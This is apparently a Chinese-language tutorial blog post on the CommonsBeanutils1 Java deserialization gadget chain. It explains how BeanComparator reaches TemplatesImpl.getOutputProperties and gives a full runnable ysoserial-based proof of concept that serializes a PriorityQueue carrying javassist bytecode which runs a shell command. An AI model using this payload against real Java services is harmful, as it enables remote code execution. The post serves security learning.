

## 环境准备

JDK1.8(8u421) JDK8的版本应该都没什么影响，这里直接以我的镜像为准了、commons-beanutils:commons-beanutils:1.9.2、commons-collections:commons-collections:3.2、javassist:javassist:3.12.0.GA

mvn中加入以下依赖：

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2</version>
</dependency>
<dependency>
    <groupId>javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.12.1.GA</version>
</dependency>
<!-- https://mvnrepository.com/artifact/commons-beanutils/commons-beanutils -->
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.1</version>
</dependency>
```

## **正文**

CB链用到了CC2中的`TemplatesImpl`的内容，如果你对CC2链不太熟悉，可以先看一下这个：https://www.cnblogs.com/erosion2020/p/18553815

当你知道CC2中的攻击链的构成之后，你学CB链就会非常轻松，CB链也可以说是CC2链的一个变种，只是反序列化的点换成了`commons-beanutils`中的另一个类，也就是`BeanComparator`，下边来解释一下这个类是怎么触发`TemplatesImpl`的。

## BeanComparator

`BeanComparator` 是 Java 中常见的一个类，通常用于在集合中对 Java Bean 对象进行比较排序。它实现了 `Comparator` 接口，目的是根据对象的某个或多个属性进行排序。在一些框架中（如 Apache Commons BeanUtils 或类似的工具库），`BeanComparator` 是一种常见的比较器实现，简化了比较操作，尤其是当比较的对象是 Java Bean 时。

### 基本作用

- **通过指定的属性进行排序**：它根据给定的 Java Bean 的某个属性值进行排序。比如，如果有一个 `Person` 类，它有 `name` 和 `age` 属性，可以使用 `BeanComparator` 来根据 `name` 或 `age` 进行升序或降序排序。
- **灵活性**：`BeanComparator` **可以指定一个或多个属性进行排序，支持更复杂的排序逻辑**。通过利用 Java 反射，`BeanComparator` 能够获取 Bean 的属性值并进行比较。

**可以指定一个或多个属性进行排序，支持更复杂的排序逻辑**这一句话是非常重要的，正是因为BeanComparator可以通过字段属性排序，所以导致了攻击链的触发。

### 代码分析

```java
public class BeanComparator<T> implements Comparator<T>, Serializable {
    // 属性字段
    private String property;
    // 内部封装了一个Comparator比较器
    private final Comparator<?> comparator;
	// 调用compare比较两个对象的值
    public int compare(T o1, T o2) {
    	......
    	// PropertyUtils.getProperty是重点方法
        Object value1 = PropertyUtils.getProperty(o1, this.property);
        Object value2 = PropertyUtils.getProperty(o2, this.property);
        return this.internalCompare(value1, value2);
        .......
    }
}

PropertyUtils.getProperty(Object bean, String name) {
    // 关注这个getProperty方法
    return PropertyUtilsBean.getInstance().getProperty(bean, name);
}
// 会执行到这个方法
public Object getProperty(Object bean, String name) {
    return this.getNestedProperty(bean, name);
}
public Object getNestedProperty(Object bean, String name) {
    ......
    if (bean instanceof Map) {
        bean = this.getPropertyOfMapBean((Map)bean, name);
    } else if (this.resolver.isMapped(name)) {
        bean = this.getMappedProperty(bean, name);
    } else if (this.resolver.isIndexed(name)) {
        bean = this.getIndexedProperty(bean, name);
    } else {
        // 重点关注这个方法，如果bean是我们构造的TemplatesImpl对象，则会触发这个方法
        bean = this.getSimpleProperty(bean, name);
    }
	......
    return bean;
}
// 这是最终触发调用链代码的方法
public Object getSimpleProperty(Object bean, String name) {
    // getPropertyDescriptor可以理解为获取bean这个对象中的所有属性字段，如果这个字段存在getter方法，也会获取到
    // 假设bean中存在info字段以及getInfo方法，则PropertyDescriptor中的字段信息如下：
    // name字段为info
    // readMethodName字段为getOutputProperties
    PropertyDescriptor descriptor = this.getPropertyDescriptor(bean, name);
    if (descriptor == null) {
        throw new NoSuchMethodException("Unknown property '" + name + "' on class '" + bean.getClass() + "'");
    } else {
        // 在这里获取到了readMethodName所对应的Method对象
        Method readMethod = this.getReadMethod(bean.getClass(), descriptor);
        if (readMethod == null) {
            throw new NoSuchMethodException("Property '" + name + "' has no getter method in class '" + bean.getClass() + "'");
        } else {
            // 执行Method
            // 如果这里的Method是我们精心构造的TemplatesImpl的getOutputProperties，那么我们的攻击链代码就可以被触发
            Object value = this.invokeMethod(readMethod, bean, EMPTY_OBJECT_ARRAY);
            return value;
        }
    }
}
```

所以理清上边的思路之后，我们现在要做的事情就是构造一个TemplatesImpl对象，然后创建一个BeanComparator，把其中的property设置为TemplatesImpl的outputProperties字段，然后在触发了BeanComparator的compare方法时，如果<T>中的T类型为TemplatesImpl，则最终会触发TemplatesImpl的getOutputProperties方法，然后触发我们的调用链

## POC(基于ysoserial)

老规矩，这个还是ysoserial的代码拿过来改了，没有调用ysoserial中的工具类，不依赖工具库可以直接本地调试运行。

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.PriorityQueue;

public class CommonsBeanUtils1 {
    static String serialFileName = "commons-bean-utils1.ser";
    public static void main(String[] args) throws Exception {
//        cb1bySerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cb1bySerial() throws Exception {
        //==========================CC2中的构造Templates的内容 START==========================
        String executeCode = "Runtime.getRuntime().exec(\"cmd /c start\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());
        //==========================CB1链触发点 START==========================

        // mock method name until armed
        final BeanComparator comparator = new BeanComparator("lowestSetBit");

        // create queue with numbers and basic comparator
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        // 这里是让其触发BigInteger.lowestSetBit属性方法，可以在set queue值的时候不报错。
        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        // switch method called by comparator
        // 然后通过反射来对应的属性值，这样就能避免触发额外的动作
        Field property = comparator.getClass().getDeclaredField("property");
        property.setAccessible(true);
        property.set(comparator, "outputProperties");

        // switch contents of queue
        // queue中的值也是一样，通过反射来set值就不会触发heapfiy等一系列动作
        Field queueFiled = queue.getClass().getDeclaredField("queue");
        queueFiled.setAccessible(true);
        final Object[] queueArray = (Object[])queueFiled.get(queue);
        queueArray[0] = templates;
        queueArray[1] = templates;

        //====================CB1链触发END===================
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(queue);
        oos.flush();
        oos.close();
        fos.close();
    }
}
```

## 运行

尝试运行代码，来弹个cmd



## 调用链

调用链如下

* PriorityQueue.readObject()
  * PriorityQueue.heapify()
    * PriorityQueue.siftDown()
      * PriorityQueue.siftDownUsingComparator()
        * BeanComparator.compare()
        * PropertyUtils.getProperty()
        * PropertyUtilsBean.getProperty()
        * PropertyUtilsBean.getNestedProperty()
        * PropertyUtilsBean.getSimpleProperty()
        * PropertyUtilsBean.getPropertyDescriptor()
        * PropertyUtilsBean.getReadMethod()
        * PropertyUtilsBean.invokeMethod()
          * TemplatesImpl.getOutputProperties()
          * TemplatesImpl.newTransformer()
          * TemplatesImpl.getTransletInstance()
            * TemplatesImpl.defineTransletClasses()
          * (AbstractTranslet) \_class[_transletIndex].getConstructor().newInstance()